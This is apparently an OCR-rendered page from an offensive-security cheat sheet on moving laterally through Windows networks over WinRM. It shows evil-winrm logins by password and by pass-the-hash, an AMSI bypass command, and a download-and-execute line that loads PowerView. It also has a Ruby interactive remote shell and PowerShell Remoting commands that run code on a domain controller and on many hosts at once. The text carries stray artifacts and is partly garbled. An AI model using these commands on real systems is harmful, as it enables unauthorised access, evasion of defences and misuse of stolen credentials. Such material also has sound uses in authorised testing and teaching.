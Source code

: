 ```powershell
>root@payload$ git clone https://github.com/Hackplayers/evil-winrm
>root@payload$ evil-winrm -i IP -u USER [-s SCRIPTS_PATH] [-e EXES_PATH] [-P PORT] [-p PASS] [-H HASH] [-U URL] [-S] [-c PUBLIC_KEY_PATH ] [-k PRIVATE_KEY_PATH ] [-r REALM]
>root@payload$ ruby evil-winrm.rb -i 192.168.1.100 -u Administrator -p 'MySuperSecr3tPass123!' -s '/home/foo/ps1_scripts/' -e '/home/foo/exe_files/'
>root@payload$ ruby evil-winrm.rb -i 10.0.0.20 -u username -H BD1C6503987F8FF006296118F359FA79
>root@payload$ ruby evil-winrm.rb -i 10.0.0.20 -u username -p password -r domain.local
*Evil-WinRM* 
PS > Bypass-4MSI
*Evil-WinRM* 
PS > IEX([Net.Webclient]::new().DownloadString("http://127.0.0.1/PowerView.ps1"))
```
# or use a custom ruby code to interact with the WinRM service.
```ruby
require 'winrm'

conn = WinRM::Connection.new( 
  endpoint: 'http://ip:5985/wsman',
  user: 'domain/user',
  password: 'password',
)

command=""
conn.shell(:powershell) do |shell|
    until command == "exit\n" do
        print "PS > "
        command = gets        
        output = shell.run(command) do |stdout, stderr|
            STDOUT.print stdout
            STDERR.print stderr
        end
    end    
    puts "Exiting with code #{output.exitcode}"
end
```
{void}
[0]
## Powershell Remoting
> PSSESSION
```powershell
PS> Enable-PSRemoting
# use cred
PS> $pass = ConvertTo-SecureString 'supersecurepassword' -AsPlainText -Force
PS> $cred = New-Object System.Management.Automation.PSCredential ('DOMAIN\Username', $pass)
PS> Invoke-Command -ComputerName DC -Credential $cred -ScriptBlock { whoami }
# one-to-one interactive session
PS> Enter-PSSession -computerName DC01
[DC01]: PS>
# one-to-one execute scripts and commands
PS> $Session = New-PSSession -ComputerName CLIENT1
PS> Invoke-Command -Session $Session -scriptBlock { $test = 1 }
PS> Invoke-Command -Session $Session -scriptBlock { $test }
1

# one-to-many execute scripts and commands
PS> Invoke-Command -computername DC01,CLIENT1 -scriptBlock { Get-Service }
PS> Invoke-Command -computername DC01,CLIENT1 -filePath c:\Scripts\Task.ps1
```
[!]